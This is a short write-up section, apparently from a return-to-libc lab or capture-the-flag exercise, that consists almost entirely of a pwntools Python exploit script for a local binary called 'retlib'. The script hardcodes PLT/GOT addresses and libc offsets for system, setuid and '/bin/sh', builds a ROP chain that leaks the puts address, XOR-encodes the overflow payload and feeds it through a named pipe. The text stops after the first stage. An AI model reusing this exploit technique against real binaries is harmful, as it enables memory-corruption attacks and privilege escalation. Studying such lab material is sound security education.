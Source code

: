 ## Final Exploit

The final exploit script for task 2:

```python
from pwn import *
import os
import posix

#context.log_level = "debug"

puts_plt = 0x08048380
fread_plt = 0x08048370
puts_got = 0x804a014
popret = 0x0804834d
pppret = 0x80485ed

main_addr = 0x8048537

offset___libc_start_main_ret = 0x19af3
offset_system = 0x00040310
offset_dup2 = 0x000ddd80
offset_read = 0x000dd3c0
offset_write = 0x000dd440
offset_str_bin_sh = 0x162cec
offset_setuid = 0x000b91a0
offset_puts = 0x000657e0
offset_exit = 0x00033260
offset_writable = 0x1ad050

def main():

    # Get the absolute path to retlib
    retlib_path = os.path.abspath("./retlib")

    # Change the working directory to tmp and create a badfile
    # This is to avoid problems with the shared directory in vagrant
    os.chdir("/tmp")

    # Create a named pipe to interact reliably with the binary
    try:
        os.unlink("badfile")
    except:
        pass
    os.mkfifo("badfile")

    # Create the rop chain
    rop  = p32(puts_plt)
    rop += p32(main_addr)
    rop += p32(puts_got)

    # Create and encode the payload
    payload = "A"*24 + rop
    payload = payload.ljust(52, "\x90")
    payload = xor(payload, 0xbe)

    # Start the process
    p = process(retlib_path)

    # Open a handle to the input named pipe
    comm = open("badfile", 'w', 0)

    # Launch the first stage of the attack
    comm.write(payload)
```
